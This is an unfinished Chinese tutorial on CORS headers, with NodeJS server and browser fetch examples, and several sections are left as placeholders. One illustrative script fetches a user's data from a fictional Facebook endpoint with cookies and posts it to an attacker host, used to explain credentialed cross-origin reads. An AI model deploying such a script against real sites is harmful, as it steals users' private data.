





## 行前準備

本篇文章，會大量用到 NodeJS HTTP Server 作為程式碼範例，為了避免重複，所以這邊先把基礎架構設定好

httpServers.ts

```ts
import { createServer } from "http";

export const http5000Server = createServer().listen(5000);
export const http5001Server = createServer().listen(5001);
```

index.ts

```ts
import { faviconListener } from "../listeners/faviconListener";
import { notFoundListener } from "../listeners/notFoundlistener";
import { http5000Server, http5001Server } from "./httpServers";

// 白頁，等等都透過 http://localhost:5000 的 F12 > Console
// 去發起 fetch 請求
http5000Server.on("request", function requestListener(req, res) {
  res.end();
  return;
});

// cross-origin resources
http5001Server.on("request", function requestListener(req, res) {
  if (req.url === "/favicon.ico") return faviconListener(req, res);
  // 等等的範例程式碼會放在這裡...
  return notFoundListener(req, res);
});
```

## CORS Headers 整理

<table>
  <thead>
    <tr>
      <th>Header Name</th>
      <th>Header Type</th>
      <th>Explain</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Access-Control-Allow-Origin</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Allow-Headers</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Allow-Methods</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Allow-Credentials</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Max-Age</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Expose-Headers</td>
      <td>Response</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Request-Method</td>
      <td>Request</td>
      <td>Explain</td>
    </tr>
    <tr>
      <td>Access-Control-Request-Headers</td>
      <td>Request</td>
      <td>Explain</td>
    </tr>
  </tbody>
</table>

## Preflight Request + Redirection

<!-- todo https://claude.ai/chat/97fdfe20-8ec6-45a8-acec-71a86339d2b9 -->

## Access-Control-Max-Age 能 cache 哪些 CORS Headers

<!-- todo 測試 -->
<!-- that is, the information contained in the Access-Control-Allow-Methods and Access-Control-Allow-Headers headers -->

## CORS-safelisted request header & Access-Control-Allow-Headers

CORS 請求，參考 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)，預設不會觸發 preflight request 的 request headers 如下：

- `Accept`
- `Accept-Language`
- `Content-Language`
- `Content-Type`
- `Range`

P.S. 針對以上 request headers 的 value，若要不觸發 preflight request，還有額外限制，有興趣的[自行參考](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)

我們在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/access-control-allow-headers") {
  if (req.method === "OPTIONS") {
    res.writeHead(204, {
      "access-control-allow-origin": "http://localhost:5000",
      "access-control-allow-headers": "authorization",
    });
    res.end();
    return;
  }
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "access-control-allow-headers": "authorization",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  headers: {
    authorization: "Basic 123",
  },
});
```

Preflight Request，這時候還不會帶上 `authorization` Request Header


Actual Request，這時候就會帶上 `authorization` Request Header


## CORS-safelisted response header & Access-Control-Expose-Headers

CORS 請求，參考 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#cors-safelisted-response-header-name)，預設能透過 JavaScript 讀取的 response headers 如下：

- `Cache-Control`
- `Content-Language`
- `Content-Length`
- `Content-Type`
- `Expires`
- `Last-Modified`
- `Pragma`

從 http://localhost:5000/ 的 F12 > Console 試試看戳自己，確實可以拿到所有 response headers

```js
fetch("http://localhost:5000/").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "connection": "keep-alive",
  "content-length": "0",
  "date": "Mon, 07 Jul 2025 06:38:28 GMT",
  "keep-alive": "timeout=5"
}
```


接著在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/cors-safelisted-response-header") {
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "cache-control": "cache-control",
    "content-language": "content-language",
    "content-length": 0,
    "content-type": "text/html",
    expires: "expires",
    "last-modified": "last-modified",
    pragma: "pragma",
    "x-custom-header1": "x-custom-value1",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看，確實如同 spec 的描述，只能透過 JavaScript 讀取這些 Response Headers

```js
fetch("http://localhost:5001/cors-safelisted-response-header").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "cache-control": "cache-control",
  "content-language": "content-language",
  "content-length": "0",
  "content-type": "text/html",
  "expires": "expires",
  "last-modified": "last-modified",
  "pragma": "pragma"
}
```

使用 `Access-Control-Expose-Headers`，就可以增加 JavaScript 能讀取的 Response Headers

```ts
if (req.url === "/access-control-expose-headers") {
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "cache-control": "cache-control",
    "content-language": "content-language",
    "content-length": 0,
    "content-type": "text/html",
    expires: "expires",
    "last-modified": "last-modified",
    pragma: "pragma",
    "access-control-expose-headers": "connection, date, keep-alive",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看，可以看到 `connection, date, keep-alive` 都可以讀取了～

```js
fetch("http://localhost:5001/access-control-expose-headers").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "cache-control": "cache-control",
  "connection": "keep-alive",
  "content-language": "content-language",
  "content-length": "0",
  "content-type": "text/html",
  "date": "Mon, 07 Jul 2025 10:53:13 GMT",
  "expires": "expires",
  "keep-alive": "timeout=5",
  "last-modified": "last-modified",
  "pragma": "pragma"
}
```

## 大魔王 Access-Control-Allow-Credentials

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#credentials) 針對 `Credentials` 的描述

```
Credentials are HTTP cookies, TLS client certificates, and authentication entries (for HTTP authentication).
```

再來看看 `authentication entries` 的描述

```
An authentication entry and a proxy-authentication entry are tuples of username, password, and realm, used for HTTP authentication and HTTP proxy authentication, and associated with one or more requests.

User agents should allow both to be cleared together with HTTP cookies and similar tracking functionality.
```

大致拆解一下

- HTTP cookies => 就是指 `cookie` Request Header
- TLS client certificates => 已超出 HTTP 的範疇，本篇文章不討論
- authentication entries =>

### cookie

瀏覽器打開 http://localhost:5001/ ，F12 > Application > Cookies，先塞個 `hello=world` 進去


從 http://localhost:5000/ 的 F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  credentials: "include",
});
```

應該會看到以下錯誤


要注意的是，`cookie` 還是有被送出，Server 有收到 HTTP Request 並且回傳 HTTP Response，只是瀏覽器擋住 HTTP Response，不讓 JavaScript 讀取而已


如果瀏覽器不擋住 JavaScript 讀取 Response 的話，攻擊者就可以構造一個惡意的網站，竊取被害者（點開網站的人類）在 FaceBook 的個人資料，並且送到攻擊者架的 Server

```html
<script>
  // https://www.facebook.com/userInfo 這是假的 API EndPoint，只是舉例用
  fetch("https://www.facebook.com/userInfo", { credentials: "include" })
    .then((res) => res.text())
    .then((userInfo) =>
      fetch("https://attacker.website", { method: "POST", body: userInfo }),
    );
</script>
```

事實上，古早時期就發生過類似的漏洞，叫做 [XST (Cross Site Tracing)](../http/http-request-methods-2.md#xst-cross-site-tracing)

不過，以上漏洞要成立的話，除了 "瀏覽器不擋住 JavaScript 讀取 Response" 的前提，還需要

1. 目標網址（https://www.facebook.com/userInfo）使用 cookie 驗證身分
2. `fetch` 到目標網址（https://www.facebook.com/userInfo）須滿足 `Simple Request`（不能發送 preflight request，否則在 preflight request 階段就會被擋下來）
3. 受害者的瀏覽器已登入 https://www.facebook.com/userInfo
4. 受害者要點開攻擊者構造的惡意網站（這部分就要搭配釣魚攻擊、社交工程等等）

另外補充，`CSRF` 是無法透過 `Access-Control-Allow-Credentials` 來保護的喔！

- `CSRF` 是需要在 HTTP Request 階段就透過 `CSRF Token` 來過濾跨域請求
- `Access-Control-Allow-Credentials` 則是瀏覽器的安全機制，HTTP Request 包含 `cookie` 且 HTTP Response 沒設定 `Access-Control-Allow-Credentials` 的話，就禁止 JavaScript 讀取 HTTP Response

### authentication entries

## 跳過 Preflight Request? Access-Control-Max-Age 實際測試

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#http-access-control-max-age) 的描述

```
Indicates the number of seconds (5 by default) the information provided by the `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers` headers can be cached.
```

### 參考資料

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS/Errors
- https://developer.mozilla.org/en-US/docs/Glossary/CORS
- https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_response_header
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Origin
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Methods
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Credentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Expose-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Method
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Headers
